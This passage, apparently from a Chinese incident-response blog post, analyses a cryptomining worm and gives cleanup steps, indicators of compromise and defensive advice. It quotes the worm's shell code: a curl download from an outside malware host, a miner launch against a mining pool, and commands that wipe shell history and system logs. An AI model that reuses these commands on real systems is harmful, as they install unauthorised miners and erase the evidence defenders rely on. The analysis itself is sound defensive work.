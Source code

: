 上面这三段代码是通过 ssh 的证书登录方式横向感染传播。

```
if [ ! -d "/.Xll" ];then
    mkdir /.Xll
fi
cd /.Xll
if [ ! -f "./xr" ];then
    uname -a|grep x86_64 && (curl -fsSL d.ackng.com/ ......
fi
uname -a|grep x86_64 && ps aux|grep lplp.ackng.com |grep -v grep || ./xr -o lplp.ackng.com:444 --opencl --donate-level=1 --nicehash -B --http-host=0.0.0.0 --http-port=65529

```

上面这段代码是下载恶意二进制程序，应该就是挖矿病毒本体。

最后是清理痕迹

```
history -c
echo 0>/var/spool/mail/root
echo 0>/var/log/wtmp
echo 0>/var/log/secure
echo 0>/var/log/cron
echo > /root/.bash_history

```

### 清理与恢复

根据恶意脚本的逻辑，整理出清理步骤如下 1 删除 crontab 恶意定时任务 2 杀死./xr 进程 3 删除 /.Xll 目录

总结与反思
-----

### 病毒标识

> 目录及文件 /.Xll 和 /.Xll/xr
> 
> 进程表示 ps aux | grep lplp.ackng.com
> 
> 两个域 t.amynx.com， t.jdjdcjq.top

### 挖矿威胁小于勒索

每次碰到病毒入侵要应急都心惊胆颤，挖矿病毒都还好，最坏情况是重装个环境，客户的数据是安全的，如果是勒索病毒就会很棘手。

无论如何，还是尽量保证系统安全性，减小系统入侵攻击面，这样可以极大保护系统不被入侵。

### 防护建议

一般来说，自动化的入侵一般都是利用非常简单的漏洞，比如若口令，使用存在漏洞的组件，未授权访问等，另外一个感染病毒的方式是 ssh 证书认证。如上文提到的，针对 ssh 横向传播就有三个方式，看来这种方式还是很受青睐的。所以对于厂商来说，还是要适当的控制 ssh 证书登入。

最后，我把上述用到的脚本和 checklist 放在 https://github.com/kafroc/emergency-response-toolbox 中，有需要的读者可下载使用，欢迎任何的反馈意见。  
